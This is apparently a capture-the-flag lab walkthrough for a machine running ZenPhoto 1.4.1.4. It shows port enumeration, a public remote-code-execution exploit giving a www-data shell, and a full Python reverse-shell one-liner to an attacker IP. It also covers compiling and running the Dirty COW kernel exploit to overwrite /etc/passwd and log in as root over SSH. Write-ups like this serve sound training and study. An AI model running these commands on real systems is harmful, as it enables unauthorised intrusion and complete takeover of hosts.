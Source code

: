 # ZenPhoto

### Enumeration

```
80/tcp   open  http    Apache httpd 2.2.14 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.14 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

```
/test

<!-- zenphoto version 1.4.1.4 [8157] (Official Build) THEME: default (index.php) GRAPHICS LIB: PHP GD library 2.0 { memory: 128M } PLUGINS: class-video colorbox deprecated-functions hitcounter security-logger tiny_mce zenphoto_news zenphoto_sendmail zenphoto_seo  -->
```

ZenPhoto 1.4.1.4 - 'ajax\_create\_folder.php' Remote Code Execution

https://www.exploit-db.com/exploits/18083

### Initial Access

```
$ php 18083 192.168.234.41 /test/
zenphoto-shell# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

zenphoto-shell# which python
/usr/bin/python

zenphoto-shell# export RHOST="192.168.49.234";export RPORT=80;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

### PrivEsc

```
OS: Linux version 2.6.32-21-generic (buildd@rothera) (gcc version 4.4.3 (Ubuntu 4.4.3-4ubuntu5) ) #32-Ubuntu SMP Fri Apr 16 08:10:02 UTC 2010
```

Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE\_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method) - https://www.exploit-db.com/exploits/40839

[https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c](https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c)

```
gcc -pthread dirty.c -o dirty -lcrypt
./dirty

/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: pass123

$ ssh firefart@192.168.234.41
```
